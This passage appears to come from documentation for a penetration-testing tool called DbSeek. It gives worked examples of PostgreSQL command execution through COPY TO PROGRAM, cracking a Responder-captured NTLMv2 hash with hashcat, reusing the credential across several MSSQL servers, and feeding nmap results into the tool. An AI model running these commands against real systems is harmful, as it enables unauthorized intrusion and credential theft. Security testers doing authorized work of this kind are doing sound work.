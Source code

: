 ```bash
postgres=# \c financial_records
financial_records=# \dt
            List of relations
 Schema |     Name      | Type  |  Owner
--------+---------------+-------+----------
 public | transactions  | table | postgres
 public | accounts      | table | postgres

# Command execution (PostgreSQL superuser)
financial_records=# COPY (SELECT '') TO PROGRAM 'id > /tmp/out.txt';

# Impact: Full database access + potential OS command execution
```

### Example 4: Responder Credential Reuse
**Scenario**: MSSQL credential captured via Responder works on multiple servers

```bash
# Responder capture
[MSSQL] NTLMv2-SSP Hash     : DOMAIN\sqlservice::DOMAIN:hash...

# Crack hash
$ hashcat -m 5600 hash.txt rockyou.txt
DOMAIN\sqlservice:SQLService2023!

# Test across network
$ ./dbseek.py -u sqlservice -p SQLService2023! -v -e

[CRITICAL] 192.168.1.53 (sql-prod-01) - MSSQL
    ✓ MSSQL: sqlservice:SQLService2023!
    📊 MSSQL Databases: hr_database, payroll, inventory (12 total)

[CRITICAL] 192.168.1.54 (sql-prod-02) - MSSQL
    ✓ MSSQL: sqlservice:SQLService2023!
    📊 MSSQL Databases: customer_db, orders, shipping (8 total)

[CRITICAL] 192.168.1.55 (sql-dev-01) - MSSQL
    ✓ MSSQL: sqlservice:SQLService2023!
    📊 MSSQL Databases: dev_app, test_data (5 total)

# Impact: 3 MSSQL servers compromised with single credential
# Service account = sysadmin = full control
```

## Integration with Other Tools

### Nmap Integration
```bash
# 1. Use Nmap to find database ports
nmap -p 3306,5432,1433,27017,6379,1521 192.168.1.0/24 --open -oG - | \
    grep "/open/" | cut -d' ' -f2 > db_hosts.txt

# 2. Run DbSeek on discovered hosts
./dbseek.py -f db_hosts.txt -t -e

# 3. Compare results
# Nmap: Port open
# DbSeek: Service version + auth status + vulnerabilities
```
